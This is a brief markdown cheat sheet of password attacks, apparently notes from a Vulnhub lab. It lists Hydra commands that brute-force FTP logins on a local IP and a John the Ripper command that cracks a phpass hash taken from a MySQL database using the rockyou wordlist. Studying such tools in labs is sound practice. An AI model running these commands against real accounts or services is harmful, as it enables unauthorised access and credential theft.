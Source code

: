 #Bruteforce commands

##Hydra

### FTP 
```
hydra -L usernames.txt -P usernames.txt 192.168.1.6 ftp

hydra -L users.txt -e nsr 192.168.1.6 ftp (nsr -> Using users.txt, bruteforcing the password in the reverse order)
```

https://medium.com/@bondo.mike/vulnhub-stapler-1-ab928900d614

## John

### Cracking password using wordlist

Here password hash is collected from mysql database
Content of hash.txt
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Output - It identifies password of john from the word list.
